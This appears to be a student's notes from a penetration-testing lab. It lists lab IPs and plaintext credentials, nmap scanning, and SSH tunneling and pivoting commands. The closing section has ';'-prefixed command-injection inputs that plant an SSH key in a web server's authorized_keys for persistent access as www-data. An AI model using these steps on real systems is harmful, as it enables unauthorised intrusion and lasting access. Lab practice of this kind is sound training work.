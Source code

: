 http://10.50.20.250:8000/          TYFI-006-M  Ja7Gh0bmQhGeAWq
10.50.28.181  Semper
GREYHOST:     10.50.35.7                                                                           student     Ja7Gh0bmQhGeAWq
ACCESSING GREYHOST:
  ssh -X student@10.50.35.7                                                                        Ja7Gh0bmQhGeAWq
  ssh -MS /tmp/grey student@10.50.35.7                                                             Ja7Gh0bmQhGeAWq

#CREDENTIALS
  WINDOWS:    xfreerdp /u:student /v:10.50.42.187 -dynamic-resolution +glyph-cache +clipboard      Charity@2006
  LINUX:      ssh -X student@10.50.29.84                                                           Charity@2006
  GREYHOST:                                                                                   Student     Long Pass
  
REBUILD BOXES:
  VTA
  INSTANCES
  REBUILD INSTANCE
  SELECT IMAGE: NIX_OPS
  PARTITIION: AUTOMATIC
  REBUILD INSTANCE
  

#NMAP SCRIPT COMMANDS
  /usr/share/nmap/scripts
  nmap --script <filename>|<category>|<directory>
  nmap --script-help "ftp-* and discovery"
  nmap --script-args <args>
  nmap --script-args-file <filename>
  nmap --script-help <filename>|<category>|<directory>
  nmap --script-trace
      http-enum.nse


#COMMANDS
  ssh -MS /tmp/grey student@10.50.35.7
  ssh -S /tmp/grey grey -O forward -D 9050
  for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
  proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.1,2,3,97,98,99,100,105,111,120,129,130,131 -p-
  ssh -S /tmp/grey grey -O forward -L 40700:192.168.28.111:80
  ssh -S /tmp/grey grey -O forward -L 40710:192.168.28.111:22                                                  #Sets a new master socket referencing the original master socket to access an additional box
  ssh -MS /tmp/billybobhost billybob@0.0.0.0 -p 40710
  ssh -S /tmp/billybobhost -O forward -D 9050
  ssh -S /tmp/grey grey -O cancel -L 40700:192.168.28.111:80                                                   #Closes out a tunnel
  proxychains nmap -v -sT -Pn -T4 --script http-enum.nse 192.168.28.111 -p 80
  



ssh-keygen -t rsa -b 4096                                                                                        #Generates public ssh key
; mkdir /var/www/.ssh
; ls /var/www/ssh
vim test.txt
cat id_rsa.pub            ##HIGHLIGHT ALL OF IT##
copy to test.txt and addd > /var/www/.ssh/authorized_keys to the end
; echo (cat test.txt and copy over file contents) in quotes
ssh -i id_rsa www-data@10.50.27.157
